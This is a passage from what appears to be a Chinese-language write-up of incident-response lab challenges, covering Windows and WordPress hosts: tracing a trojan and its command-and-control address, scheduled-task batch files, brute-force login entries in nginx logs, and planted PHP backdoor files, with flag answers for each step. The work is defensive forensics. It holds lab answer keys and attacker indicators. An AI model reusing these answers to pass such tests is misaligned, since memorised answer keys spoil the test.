

进去一看是`download xiaowei.exxe`，在这个地方找到`C:\Windows\system64\systemWo`文件，放进微步云沙箱



`flag{185.117.118.21:4444}`

### flag7

刚才我们在那个目录找到的文件就是，`flag{xiaowei.exe}`，但是为什么运行的时候又是使用的exxe呢，我觉得应该是绕过吧？

### flag8

计划任务里面直接找到bat文件



`flag{download.bat}`

## 第四章 windows实战-wordpress

链接的时候把端口带上，这里不是22了

### flag1

找攻击成功第一时间看日志，先看到是`nginx.htaccess`，所以我们看nginx的日志就可以了，一打开一看一大堆的404，这肯定是在目录遍历啊



```
192.168.141.55 - - [29/Apr/2023:22:44:38 +0800] "POST /index.php/action/login?_=139102b0477b064f9cf570483837d74c HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:44:38 +0800] "GET /manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F HTTP/1.1" 200 7229 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "POST /index.php/action/login?_=139102b0477b064f9cf570483837d74c HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
```

虽然说都进行了302跳转，但是下面的才是最后一次，所以成功时间应该是下面的(渗透思路)，不过我是两个都交`flag{2023:04:29 22:45:23}`

### flag2

看日志里面的指纹就知道了`flag{Firefox/110.0}`

### flag3

所使用的工具在flag1的图里面已经非常明显了`flag{Fuzz Faster U Fool}`

### flag4

找恶意插入的后门文件，直接把www给打包放D盾里面，一下就扫出来了，其实刚才日志里面也有利用的痕迹`flag{C:\phpstudy_pro\WWW\.x.php}`

### flag5

D盾也给扫出来了，里面是个`file_get_contents`，直接就交`flag{C:\phpstudy_pro\WWW\usr\themes\default\post.php}`

### flag6

寻找可疑的自启动方式，找exe，在这里找到了



看到了`360.exe`，微步的云沙箱弄一弄，确实是木马，那可以整了，直觉有个bat文件，直接交，后来发现也确实是`flag{x.bat}`

## 第四章 windows实战--黑页&&篡改

大家都没做出来，那我也不去浪费金币了
